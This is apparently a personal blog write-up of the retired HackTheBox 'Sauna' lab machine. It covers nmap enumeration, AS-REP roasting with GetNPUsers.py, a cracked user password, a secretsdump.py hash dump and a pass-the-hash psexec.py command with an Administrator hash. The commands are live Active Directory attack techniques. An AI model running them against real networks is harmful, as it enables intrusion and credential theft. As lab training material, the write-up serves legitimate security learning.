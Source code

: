 ```yaml
---
title: "Hackthebox Sauna Writeup"
date: 2020-07-20 00:00:00 +0530
categories: [HACKTHEBOX, Retired]
tags: [htb]
image:  "assets/img/Posts/sauna/1.png"

---
```

![img1]({{ "/assets/img/Posts/sauna/1.png" | relative_url }})

Let's begin the journey of exploiting the box. It's an easy windows box with 20 points. We will be utilizing some of the tools such as [EvilWinRm](https://github.com/Hackplayers/evil-winrm) , [GetNPUsers](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) , winPEAS , and mimikatz.exe and secretdump.py for privilege escalation.


# **Enumeration**

We will be running [nmapAutomator](https://github.com/21y4d/nmapAutomator) tool which would cover all types of basic enumeration.

```console
./nmapAutomator 10.10.10.175 All
```

The result is as below

```console
Nmap scan report for 10.10.10.175
Host is up (0.30s latency).
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020–07–17 03:55:16Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/16%Time=5F10BD89%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,”\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\SF:x04bind\0\0\x10\0\x03");
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
49686/tcp open msrpc Microsoft Windows RPC
58118/tcp open msrpc Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h05m02s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020–07–17T03:57:44
|_ start_date: N/A
```

There are a bunch ports open lets list down the ports which would be useful in exploiting the box. There is Web server running at port 80. We have kerberos service running at port 389 and 3268 .We also got the domain name which got revealed by ldap service EGOTISTICAL-BANK.LOCAL .

I moved on to enumerating with enum4linux but didn't find any usernames. We even tried enumerating the SMB but didn't find something interesting .

As we got the HTTP port open lets enumerate the website.

![img2]({{ "/assets/img/Posts/sauna/2.png" | relative_url }})

After visiting the website found some user names in the "About-us"

![img3]({{ "/assets/img/Posts/sauna/3.png" | relative_url }})

Let's take a note of the usernames with a type of combination which would help us in enumeration during the ldap and kerberos. Below is the format in which we could form the user.txt.

![img4]({{ "/assets/img/Posts/sauna/4.png" | relative_url }})

After getting some usernames. We would be using the Impacket tool which has a GetNPUsers python script that returns the TGT(Ticket Granting Ticket) only if the user account doesn't need kerberos per-authentication.


# **Exploitation**

Now we would run the GetNPUsers.py against the domain name which will give us the TGT for the user FSmith.

```console
$ python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile user.txt -outputfile tgt.txt -dc-ip 10.10.10.175
```
![img5]({{ "/assets/img/Posts/sauna/5.png" | relative_url }})

![img6]({{ "/assets/img/Posts/sauna/6.png" | relative_url }})

After cracking the hash with john using rockyou.txt file we achieved the password for

>FSmith : Thestrokes23

![img7]({{ "/assets/img/Posts/sauna/7.png" | relative_url }})

Now we will login using evil-winrm.

![img8]({{ "/assets/img/Posts/sauna/8.png" | relative_url }})

After logging in as FSmith we got the user.txt file. Now lets move on to the post-exploitation.

![img9]({{ "/assets/img/Posts/sauna/9.png" | relative_url }})


# **Post-Exploitation**

Let us first list down the users present .

![img10]({{ "/assets/img/Posts/sauna/10.png" | relative_url }})

The method is to use "winPEAS.exe" to collect information and get the password of svc_loanmgr and as we got DPAPI Master key which we could attack with mimikatz.

![img11]({{ "/assets/img/Posts/sauna/11.png" | relative_url }})

Then execute the winPEAS.exe file . Below are some interesting finding.

![img12]({{ "/assets/img/Posts/sauna/12.png" | relative_url }})

Now we have got the default password for svc_loanmgr user .

In the results of ./winPEAS.exe we got DPAPI master key which we could attack with mimikatz.

Lets dump the hashes by [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```console
$ python3 secretsdump.py EGOTISTICAL-BANK/svc-loanmgr@10.10.10.175
```

![img13]({{ "/assets/img/Posts/sauna/13.png" | relative_url }})

Now lets use the Administrator hash to get logged in using the [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)


```console
$ python3 python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
```

![img14]({{ "/assets/img/Posts/sauna/14.png" | relative_url }})

Bingo we have successfully rooted the box .


**By Swar Shah**
<br>

![img15]({{ "/assets/img/Posts/sauna/15.png" | relative_url }})
